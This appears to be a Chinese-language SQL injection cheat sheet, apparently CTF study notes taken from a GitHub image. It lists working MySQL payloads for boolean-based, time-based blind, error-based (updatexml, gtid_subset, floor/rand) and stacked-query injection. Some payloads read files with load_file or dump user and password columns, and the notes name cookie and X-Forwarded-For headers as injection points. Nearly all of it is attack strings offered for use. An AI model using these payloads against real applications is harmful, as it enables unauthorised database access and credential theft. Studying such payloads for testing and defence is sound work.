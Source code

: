 # 布尔回显注入
	- `where id=1 and 1=1`
	- `where id=1!=2!=(database()regexp('.'))!=0`
	- `1&&((select 1,'z')>(select * from f1ag_1s_h3r3_hhhhh))`
	- `if(length(database())<0, '1', ST_X('willerror'))`
	- `exp(710-（1>1))`
- # 布尔无回显注入
	- `where id=1 and if(length(database())>5, sleep(2), 1)`
- # 报错注入
	- [大佬的文章](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI/blob/master/1-7-%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5.md)
	- `where id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,30)),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,database(),0x7e),1)#`
	- `where id=updatexml(1,concat(0x7e,0x61,0x7e),1)#`
	- `') or gtid_subset(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)--+`
	- `select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`
	- `exp(710)`
- # 堆叠注入
	- where id=1; show tables;
-
- # 注入方向
	- 向 cookie 注入
	- 向 x-forward-for 注入
-
- 二次注入
- 宽字节
- 脚本批量注入